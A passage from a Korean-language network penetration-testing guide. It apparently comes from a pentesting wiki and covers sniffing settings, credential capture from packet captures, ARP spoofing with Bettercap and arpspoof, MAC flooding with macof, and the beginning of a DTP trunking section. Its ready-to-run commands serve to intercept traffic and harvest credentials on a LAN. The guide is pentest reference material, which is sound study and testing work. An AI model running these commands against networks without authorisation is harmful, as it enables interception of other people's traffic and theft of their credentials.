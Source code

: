```bash
set net.sniff.local  #If true it will consider packets from/to this computer, otherwise it will skip them (default=false)
set net.sniff.filter #BPF filter for the sniffer (default=not arp)
set net.sniff.regexp #If set only packets matching this regex will be considered
```
### Wireshark

명백히.

### 자격 증명 캡처

[https://github.com/lgandx/PCredz](https://github.com/lgandx/PCredz)와 같은 도구를 사용하여 pcap 또는 라이브 인터페이스에서 자격 증명을 파싱할 수 있습니다.

## LAN 공격

### ARP 스푸핑

ARP 스푸핑은 기계의 IP가 우리의 장치의 MAC을 가지고 있음을 나타내기 위해 불필요한 ARP 응답을 보내는 것입니다. 그러면 피해자는 ARP 테이블을 변경하고 스푸핑된 IP에 연락할 때마다 우리의 장치에 연락하게 됩니다.

#### **Bettercap**
```bash
arp.spoof on
set arp.spoof.targets <IP> #Specific targets to ARP spoof (default=<entire subnet>)
set arp.spoof.whitelist #Specific targets to skip while spoofing
set arp.spoof.fullduplex true #If true, both the targets and the gateway will be attacked, otherwise only the target (default=false)
set arp.spoof.internal true #If true, local connections among computers of the network will be spoofed, otherwise only connections going to and coming from the Internet (default=false)
```
#### **Arpspoof**
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -t 192.168.1.1 192.168.1.2
arpspoof -t 192.168.1.2 192.168.1.1
```
### MAC Flooding - CAM overflow

스위치의 CAM 테이블을 오버플로우하여 다양한 소스 MAC 주소로 많은 패킷을 전송합니다. CAM 테이블이 가득 차면 스위치는 허브처럼 동작하기 시작합니다(모든 트래픽을 브로드캐스트).
```bash
macof -i <interface>
```
현대 스위치에서는 이 취약점이 수정되었습니다.

### 802.1Q VLAN / DTP 공격

#### 동적 트렁킹

**Dynamic Trunking Protocol (DTP)**는 트렁킹을 위한 자동 시스템을 용이하게 하기 위해 설계된 링크 계층 프로토콜로, 스위치가 트렁크 모드(Trunk) 또는 비트렁크 모드에서 포트를 자동으로 선택할 수 있도록 합니다. **DTP**의 배치는 종종 최적이 아닌 네트워크 설계를 나타내며, 필요할 때만 수동으로 트렁크를 구성하고 적절한 문서를 보장하는 것이 중요함을 강조합니다.
